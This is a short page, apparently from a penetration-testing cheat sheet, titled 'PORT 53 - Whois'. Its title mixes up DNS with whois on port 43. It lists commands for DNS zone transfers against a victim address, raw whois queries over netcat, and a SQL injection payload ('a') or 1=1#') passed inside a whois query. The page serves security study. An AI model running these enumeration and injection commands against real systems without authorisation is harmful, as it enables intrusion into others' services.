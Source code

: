 ```yaml
---
title: "PORT 53 - Whois"
draft: false
images: []
menu:
  docs:
    parent: "Ports"
weight: 53
toc: true
---
```


```dig axfr @<ip-victim> <domain>

host -l <domain> <ip-victim>

whois -h 10.10.1.111 -p 43 "domain.com"

echo "domain.com" | nc -vn 10.10.1.111 43

whois -h 10.10.1.111 -p 43 "a') or 1=1#"
```